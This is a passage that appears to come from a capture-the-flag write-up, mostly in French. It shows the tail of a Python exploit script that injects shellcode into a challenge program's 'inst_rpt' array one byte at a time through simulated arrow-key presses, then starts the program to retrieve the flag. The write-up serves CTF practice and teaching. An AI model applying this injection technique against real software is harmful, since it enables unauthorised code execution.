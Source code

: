 ```py
    index = 0
    
    # Writting payload byte per byte from inst_rpt[0]
    for byte in shellcode:
        print(f"[+] Writting bytes {hex(byte)} to inst_rpt[{index}]")

        if byte < 0x7F:
            for b in range(1, byte+1):
                print(f"[INFO] Current value : {hex(b)} written in {index}")
                press_button(BUTTON_UP_ARROW)
                
        else:
            for b in range(0xFE, byte-1, -1):
                print(f"[INFO] Current value : {hex(b)} written in {index}")
                press_button(BUTTON_DOWN_ARROW)
                
        index += 1

        if index == len(shellcode):
            break
        press_button(BUTTON_RIGHT_ARROW)

    # Start simulation and get flag !
    print("[+] Press Start button !")
    press_button(BUTTON_START)

if __name__ == "__main__":
    main()
```

## Flag

Et voici le flag !
